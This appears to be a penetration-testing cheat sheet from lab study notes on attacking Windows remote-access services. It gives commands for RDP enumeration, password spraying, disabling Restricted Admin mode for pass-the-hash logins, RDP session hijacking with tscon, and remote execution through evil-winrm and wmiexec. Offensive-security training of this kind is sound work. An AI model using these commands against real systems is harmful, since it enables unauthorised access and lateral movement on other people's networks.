- GUI: [dbeaver](https://github.com/dbeaver/dbeaver)

## RDP
- TCP:3389
- Enumerate
  - nmap --script rdp*
  - sudo cpan
  - [rdp-sec-check](https://github.com/CiscoCXSecurity/rdp-sec-check.git)
    - ./rdp-sec-check.pl 10.129.201.248

- Spraying
  - crowbar/hydra

- **Access to Target**
  - Disable restrcited admin mode: 
    -  reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
  - **xfreerdp**
    - xfreerdp /f /u:USERNAME /p:PASSWORD /v:$TARGET[:PORT]
      - /f: fullscreen
      - /dynamic-resolution 
      - +clipboard
      - /drive:linux,/home/plaintext/htb/academy/filetransfer = mount
      - /workarea
      - /pth:NTLM_HASH
      - /cert:ignore
      - +drives 
      - /pth:NTLM_HASH
  - **psexec**
    - psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
  - **rdesktop**
    - rdesktop -u USER -p PASS $TARGET
    - rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'

- Impersonate (within in the target)
  - tscon.exe $TARGET_SESSION_ID /dest:$CURRENT_SESSIONS
  - sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
  - net start sessionhijack

- Vuln:
  - [CVE-2019-0708 - BlueKeep](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708)

### winRM
- TCP/5985/9586
- evil-winrm -i $TARGET -u USER -p PASS
  - menu

### WMI
- Windows Management Instrumentation
- TCP/135
- impacket-wmiexec USER:"PASS"@$TARGET "hostname"
